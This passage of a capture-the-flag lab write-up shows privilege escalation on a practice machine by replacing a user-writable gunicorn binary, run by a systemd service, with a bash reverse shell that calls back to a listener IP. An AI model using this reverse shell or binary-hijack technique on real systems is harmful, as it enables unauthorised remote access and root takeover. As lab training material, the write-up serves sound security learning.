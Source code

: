 We're in! A quick look at the `/home` directory reveals another user.

```bash
beth@london:/home$ ls -la
total 16
drwxr-xr-x  4 root    root    4096 Mar 10  2024 .
drwxr-xr-x 23 root    root    4096 Apr  7  2024 ..
drwxr-xr-x 11 beth    beth    4096 May  7  2024 beth
drw-------  3 charles charles 4096 Apr 23  2024 charles
```

Hello, `charles`. We'll be paying you a visit soon. But first, let's grab the user flag.

```bash
beth@london:~$ cat __pycache__/user.txt
THM{****_****_***_******}
```

### Step 5: Privilege Escalation - To the Root!

Time for privilege escalation. A quick run of `linpeas.sh` revealed a very interesting finding related to a systemd service.

```
/etc/systemd/system/multi-user.target.wants/app.service is calling this writable executable: /home/beth/
```

Let's inspect that service file.

```bash
beth@london:/tmp$ cat /etc/systemd/system/multi-user.target.wants/app.service
[Unit]
Description=My service
After=multi-user.target

[Service]
Type=simple
Restart=always
WorkingDirectory=/home/beth
Environment="PATH=/home/beth"
ExecStart=/home/beth/.local/bin/gunicorn --config gunicorn_config.py app:app

[Install]
WantedBy=multi-user.target
```

This is a classic privesc vector. The service runs the `gunicorn` executable from `/home/beth/.local/bin/`, a directory we control! We can simply replace `gunicorn` with a reverse shell payload.

```bash
beth@london:~$ cd .local/bin/
beth@london:~/.local/bin$ mv gunicorn gunicorn.bak # Backup the original
beth@london:~/.local/bin$ echo "/bin/bash -i >& /dev/tcp/10.21.206.128/4444 0>&1" > gunicorn # Create our evil gunicorn
beth@london:~/.local/bin$ chmod +x gunicorn # Make it executable
```
